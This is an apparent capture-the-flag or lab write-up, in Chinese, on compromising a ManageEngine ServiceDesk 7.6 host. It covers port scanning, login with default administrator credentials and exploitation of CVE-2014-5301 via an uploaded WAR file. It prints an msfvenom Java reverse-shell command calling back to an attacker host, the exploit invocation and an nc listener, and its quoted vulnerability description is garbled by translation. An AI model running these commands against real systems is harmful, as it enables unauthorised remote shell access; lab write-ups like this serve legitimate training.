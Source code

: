 - nmap 

![image](https://hackmd.io/_uploads/B1Oq0tUU6.png)

- 開啟135,139,445,8080

![image](https://hackmd.io/_uploads/rJpTRY88T.png)

- 檢查web有哪些項目

![image](https://hackmd.io/_uploads/S1QWycLLa.png)

- 發現登入點與版本號，試著用google找相關漏洞與預設憑證

![image](https://hackmd.io/_uploads/S1GEb9L8p.png)

- 發現預設憑證後嘗試登入，發現剛好可以登入

![image](https://hackmd.io/_uploads/SkHI-c88p.png)

- 順便在查了一下，發現有許多CVE漏洞，但加上版本號7.6鎖定的CVE應該是CVE-2014-5301

![image](https://hackmd.io/_uploads/r1Qt45II6.png)

![image](https://hackmd.io/_uploads/S1X9EcUUa.png)

- 根據漏洞說明如下:
    -
`此模块利用 ManageEngine ServiceDesk、
 AssetExplorer、SupportCenter 和 IT360 上传附件文件时利用了目录遍历漏洞。接受 .../"序列，该序列可被滥用以在文件系统中写入内容。写入文件系统。利用此漏洞需要进行身份验证，但此模块 将尝试使用管理员和访客的默认凭据登录。账户的默认凭据登录。另外，您也可以提供一个预先验证的 cookie 或用户名/密码 组合。对于 IT360 目标，请输入 ServiceDesk 实例的 RPORT（通常为 8400）。所有 版本之前的 ServiceDesk（包括 MSP，但不包括 v4）、AssetExplorer、SupportCenter 和 IT360（包括 MSP，但不包括 v4）、 SupportCenter 和 IT360（包括 MSP）都存在漏洞。在发布此 模块时，只有 ServiceDesk v9 版本在构建 9031 及以上版本中得到修复。该模块已 已在 Windows 和 Linux 的多个版本上成功进行了测试
 `
 
- 透過whaweb我們可以確認web version

![image](https://hackmd.io/_uploads/HyFHUqUI6.png)

- 使用msfvenom製造reverserse_shell
    - `msfvenom -p java/shell_reverse_tcp LHOST=kali_IP LPORT=kali_port -f war > shell.war`

- 開始利用漏洞
    - ` sudo python3 exploit.py 192.168.214.43 8080 administrator administrator shell.war`
    - `sudo nc -lvnp 4444`

- 拿到shell後找flag